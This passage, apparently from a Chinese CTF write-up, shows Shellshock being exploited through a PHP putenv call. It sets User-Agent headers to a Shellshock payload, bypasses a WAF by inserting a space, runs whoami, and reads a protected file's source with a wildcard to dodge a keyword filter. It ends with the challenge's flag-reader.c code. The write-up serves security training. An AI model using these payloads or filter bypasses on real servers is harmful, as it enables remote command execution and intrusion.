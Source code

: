 ```php
        putenv("$key=$val");
    }
}
```

关键就在`putenv`函数，由于`ShellShock`漏洞 padyload 需要参数

```bash
env x='() { :;}; echo vulnerable' bash -c "echo this is a test" 
```

我们就可以利用`putenv`实现参数传递，直接设置`User-agent: () { :;}; echo 222222`，发现被 waf 

![](https://ws1.sinaimg.cn/large/64ef14dcgy1g08qc2c4wpj219007staa.jpg)

分析 waf 结合漏洞成因，我们可以在最后的`};`中间添加一个空格绕过，设置`User-Agent: () { :;} ; echo 222222`，成功发现输出 22222 ，我们也可以使用`() { _; } >_[$($())] { whoami; }`这个 payload

![](https://ws1.sinaimg.cn/large/64ef14dcgy1g08rmk4tuyj21ik14cagc.jpg)

发现当前用户为`www-data`，而我们之前发现根目录`flag`的权限为`-r--------   1 flag root   37 Jan  9  2018 flag`，所以不能直接读取，但是有一个`flag-reader`与`flag-reader.c`的文件，这应该是题目提示了。因为`index.php`又把`flag`关键字屏蔽了，我们也不能直接读取`flag-reader.c`，但是我们这里可以利用通配符读取，例如使用`fla*.c`

使用`() { _; } >_[$($())] { cat /fla*.c; }`得到`flag-reader.c`源码

![](https://ws1.sinaimg.cn/large/64ef14dcgy1g08rqwh4dgj21i0148n4k.jpg)

Flag-reader.c:

```c
#include <unistd.h>
#include <syscall.h>
#include <fcntl.h>
#include <string.h>

int main(int argc, char *argv[])
{
	char buff[4096], rnd[16], val[16];
	if(syscall(SYS_getrandom, &rnd, sizeof(rnd), 0) != sizeof(rnd)) {
		write(1, "Not enough random\n", 18);
	}

	setuid(1337);
	seteuid(1337);
	alarm(1);
	write(1, &rnd, sizeof(rnd));
	read(0, &val, sizeof(val));

	if(memcmp(rnd, val, sizeof(rnd)) == 0) {
		int fd = open(argv[1], O_RDONLY);
		if(fd > 0) {
			int s = read(fd, buff, 1024);
			if(s > 0) {
				write(1, buff, s);
			}
			close(fd);
		} else {
			write(1, "Can not open file\n", 18);
		}
	} else {
		write(1, "Wrong response\n", 16);
	}
}
```
